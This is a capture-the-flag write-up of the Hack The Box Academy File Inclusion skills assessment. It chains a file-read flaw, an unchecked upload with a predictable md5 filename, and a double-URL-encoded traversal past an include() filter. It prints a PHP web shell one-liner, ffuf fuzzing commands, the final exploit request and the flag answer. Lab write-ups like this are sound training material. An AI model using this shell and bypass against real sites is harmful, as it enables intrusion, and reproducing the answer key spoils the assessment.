# Hack The Box - File Inclusion Skills Assessment | Write-up

> **Platform:** HTB Academy &nbsp;•&nbsp; **Category:** Web / File Inclusion &nbsp;•&nbsp; **Difficulty:** Medium
>
> **Target:** `154.57.164.81:30245` (re-spawned mid-assessment, see note) &nbsp;•&nbsp; **Time taken:** 70 mins
>
> **Author:** Jithin Jelson

---

## Introduction

This is the skills assessment for the Hack The Box Academy module File Inclusion. In this scenario we have been contracted by Sumace Consulting GmbH to carry out a web application penetration test against their main website. They have told us a new job application form has been added and it is a point of interest.

> **Note on the target:** the box was re-spawned twice during the assessment (it took a while), so the IP/port changes across the screenshots: `154.57.164.81:30245` → `154.57.164.82:30591` → `154.57.164.72:32306`. The chain and technique are identical on each.

---

## Assessment Overview

```mermaid
flowchart LR
    A["Sumace website<br/>apply form is the hint"]:::entry --> Enum["Enumerate"]:::entry

    Enum --> T["thanks.php?n=<br/>reflects input, no LFI"]:::payload
    Enum --> Dir["ffuf dirs<br/>api / uploads / images"]:::payload

    T --> Dead["Dead end<br/>input only reflected"]:::payload
    Dir --> Img["api/image.php?p=<br/>LFI via file_get_contents"]:::user

    Img --> W1["Weakness 1<br/>read any source (no RCE)"]:::user
    W1 --> App["read apply.php<br/>find application.php"]:::payload
    App --> W2["Weakness 2<br/>upload: no ext check, md5 name"]:::user
    W1 --> Con["read contact.php"]:::payload
    Con --> W3["Weakness 3<br/>region param to include()"]:::user

    W2 --> Chain["Upload shell.php<br/>predict md5 filename"]:::payload
    W3 --> Chain
    Chain --> RCE["include shell via region<br/>URL-encoded traversal bypass"]:::user
    RCE --> Flag["cat flag<br/>eedbb7...d1e3"]:::user

    classDef entry fill:#1d4ed8,stroke:#1e3a8a,color:#ffffff;
    classDef payload fill:#be123c,stroke:#881337,color:#ffffff;
    classDef user fill:#15803d,stroke:#14532d,color:#ffffff;
    linkStyle default stroke-width:2px
```

---

## What I Learned

- How a reflected parameter (`thanks.php?n=`) can look exploitable but be a genuine dead end when input is only echoed, not used in a file call.
- Enumerating directories with `common.txt` to reveal `api`, `uploads`, and `images`, which pointed at the real attack surface.
- Recognising that `api/image.php?p=` used `file_get_contents` (read-only), so it could not give RCE but could read the source of every PHP file.
- Reading `apply.php` to discover the form's `action` handler `application.php`, then reading that to find an upload with no extension check and predictable `md5_file` naming.
- Chaining a second LFI in `contact.php?region=` that reached `include()` with a filter bypassable because it checked input before `urldecode()`.
- Combining all three into RCE: upload a PHP shell, predict its filename, and include it through the encoded-traversal bypass.

---

## Step 1 - Mapping the Application

We can start by visiting the web page to see what we can see.



*Figure 1 - Straight away we see a file upload, which hints at the attack, but we enumerate fully before jumping to conclusions.*

We confirmed the homepage is `index.php` by loading it directly.



*Figure 2 - The homepage with Home, Contact, and Apply pages.*

We tried to fuzz `index.php` for parameters using the [HackTricks top-25 parameters](https://hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#top-25-parameters) list:

```
ffuf -w wordlist.txt -u 'http://154.57.164.81:30245/index.php?FUZZ=value'
```

Every response came back the same, and the contact and apply pages behaved identically, so there was no parameter to fuzz here. Next we enumerated every page/directory with `common.txt`.



*Figure 3 - Directory enumeration reveals `api`, `css`, `images`, and `uploads`. This confirms it is a file-upload/LFI style challenge, and the directories are redirects, so we may need LFI to read the code via base64.*

---

## Step 2 - The thanks.php Dead End

We went back to the apply page and filled in values to see what we get back.



*Figure 4 - Submitting the form redirects to `thanks.php?n=<firstName>` and reflects our input.*

Now that we have `http://154.57.164.81:30245/thanks.php?n=`, let's check if we can read `/etc/passwd` using the [LFI-Jhaddix.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist.



*Figure 5 - A lot of results at 368 words, so we filter that out with `-fw 368`.*

```
ffuf -w LFI-Jhaddix.txt -u 'http://154.57.164.81:30245/thanks.php?n=FUZZ' -fw 368
```



*Figure 6 - Neither payload succeeded. The path is only being reflected as text ("Thanks for applying, ../../../../etc/passwd!"), not executed. RFI and pointing the page at its own index also failed. Dead end.*

---

## Step 3 - Upload and the Real Endpoint

Our next attempt was to upload a PHP RCE script through the apply form.



*Figure 7 - The application accepts all file types.*

We then tried to access the upload in the `uploads` folder found earlier.



*Figure 8 - We get a Forbidden response and learn the server is running nginx.*

At this point I was stuck. I tried everything to enumerate and find the vulnerability, from RCE to zip upload exploits, but none worked. Then I realised in the source code that the images were being loaded from a `?p` parameter, not `?n` like we had been focused on. We had been looking at the wrong parameter the whole time.

```
ffuf -w LFI-Jhaddix.txt -u 'http://154.57.164.82:30591/api/image.php?p=FUZZ' -fs 0
```



*Figure 9 - Fuzzing `api/image.php?p=` returns a lot of size 0, so we filter with `-fs 0`.*



*Figure 10 - With the filter, working traversal payloads surface (Size 1041), reading `/etc/passwd`.*

It didn't render in the browser, but curling it returned `/etc/passwd`.



*Figure 11 - The browser tries to render it as an image and fails, but curl shows the file contents. LFI confirmed.*

---

## Step 4 - Reading the Source Code

Since the browser renders the response as an image, we checked whether it was also RFI (it wasn't), but we can read the source of the other PHP files. Reading `image.php` itself:



*Figure 12 - `image.php` prepends `../images/`, strips `../` once, and uses `file_get_contents` (reads, never executes). That is why no RCE was possible here, but we can read any file's source.*

Reading the apply page revealed another hidden PHP file.



*Figure 13 - The apply form's `action` points to `/api/application.php`.*

Reading `application.php`:



*Figure 14 - The upload saves as `../uploads/` + `md5_file(content)` + `.` + extension, with no extension validation. So we can upload a `.php` file and predict its exact filename in advance.*

---

## Step 5 - Executing the Chain

`contact.php` had a `region` parameter that goes straight into `include()`, with a filter blocking `.` and `/` - but it checks the raw input first, then calls `urldecode()`, then includes. So URL-encoding the dots and slashes (`%2e`, `%2f`) slips past the filter, and `urldecode()` restores them right before `include()` runs. Since `include()` executes PHP, this is our code execution vector.

Create the shell and calculate its MD5 (which becomes the uploaded filename):

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
md5sum shell.php
```



*Figure 15 - `shell.php` hashes to `fc023fcacb27a7ad72d605c4e300b389`, so it lands at `/uploads/fc023fcacb27a7ad72d605c4e300b389.php`.*

Upload it through the apply form (in Burp, just set the filename to `shell.php`), then include it through `contact.php?region=` with URL-encoded traversal and a `cmd`:



*Figure 16 - `ls /` runs through the included shell, listing the root directory where the flag lives.*

Then read the flag:



*Figure 17 - `cat` of the flag file returns the flag.*

```
/contact.php?region=%252E%252E%252Fuploads%252Ffc023fcacb27a7ad72d605c4e300b389&cmd=cat+../../../../flag_09ebca.txt
```

> **Objective: chain the vulnerabilities to gain RCE and read the flag.**

**Answer:** `eedbb78d4800aa45573840ed6bd2d1e3`

---
